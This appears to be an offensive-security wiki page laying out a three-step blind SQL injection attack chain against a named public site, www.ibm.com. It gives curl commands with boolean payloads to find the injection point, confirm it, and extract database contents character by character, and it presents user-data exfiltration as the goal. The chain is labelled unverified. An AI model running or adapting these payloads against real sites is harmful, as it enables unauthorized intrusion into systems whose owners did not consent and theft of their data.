

# Blind SQL Injection via URL Path on IBM Website

Multi-stage attack chain demonstrating a complete blind SQL injection workflow on a public-facing web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-http-request]] for testing URLs
- No specialized tools required; manual payload crafting suffices

### Target Environment

- Web platform with SQL backend (e.g., www.ibm.com)
- Required services: HTTP/HTTPS on port 80/443
- Network access: Public internet access to the target site

### Initial Access Requirements

- No credentials needed
- Direct public access to the website
- No prior access required

## Detailed Attack Procedures

### Step 1: Identify Injection Point
procedure: [[procedures/Identify-SQL-Injection-Point-in-URL-Path]]

**Objective**: Locate the vulnerable URL path parameter that allows SQL injection by inserting a single quote after the leading slash.

**Instructions**: Access the target website and modify any URL path by inserting a single quote immediately after the leading slash. For example, change a path like /some/path to /'/some/path. Use a browser or curl to send the request:

```bash
curl -i "https://www.ibm.com/'/some/path"
```

Observe the server response for anomalies indicating injection, such as errors or unexpected redirects.

**Expected Output**: Server response showing potential injection effects, like a 500 error or redirect loop.

**Success Indicators**:
- Response differs from normal path access (e.g., 500 error instead of 200 OK)
- Confirms injection point without crashing the site

### Step 2: Test for Blind SQL Injection
procedure: [[procedures/Test-for-Blind-SQL-Injection-via-Response-Differences]]

**Objective**: Confirm blind SQL injection by crafting payloads that trigger distinguishable server responses based on query success or failure.

**Instructions**: Build boolean-based payloads to test SQL conditions. For instance, inject a payload like /' AND 1=1 -- to simulate a true condition, and /' AND 1=2 -- for false. Send via curl without spaces if restricted:

```bash
curl -i "https://www.ibm.com/'AND1=1--/path"
```

Compare responses: successful (true) queries cause endless redirects, failed (false) cause 500 errors.

**Expected Output**: Differentiated responses (redirect vs. 500) confirming blind SQLi.

**Success Indicators**:
- True condition: Endless redirect loop
- False condition: HTTP 500 Internal Server Error

### Step 3: Exploit and Exfiltrate Data
procedure: [[procedures/Exploit-Blind-SQL-Injection-with-Boolean-Error-Based-Exfiltration]]

**Objective**: Iteratively extract database content using boolean conditions to infer data byte-by-byte without direct output.

**Instructions**: Craft space-free payloads for exfiltration, e.g., /'AND(ASCII(SUBSTRING((SELECT@@version),1,1))>64)-- for boolean checks on data. Automate iteration with scripts or manual testing via curl:

```bash
curl -i "https://www.ibm.com/'AND(ASCII(SUBSTRING((SELECT@@version),1,1))>64)--/path"
```

Adjust conditions (e.g., >64, >32) to binary search characters, observing redirect (true) vs. 500 (false).

**Expected Output**: Inferred database data through response patterns.

**Success Indicators**:
- Successful boolean hits reveal data snippets
- Full exfiltration of sensitive info like versions or user data

## Attack Chain Summary

### Key Achievements

1. Identified injectable URL path on public site
2. Confirmed blind SQLi via response differentials
3. Enabled critical data leakage without spaces or direct output

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
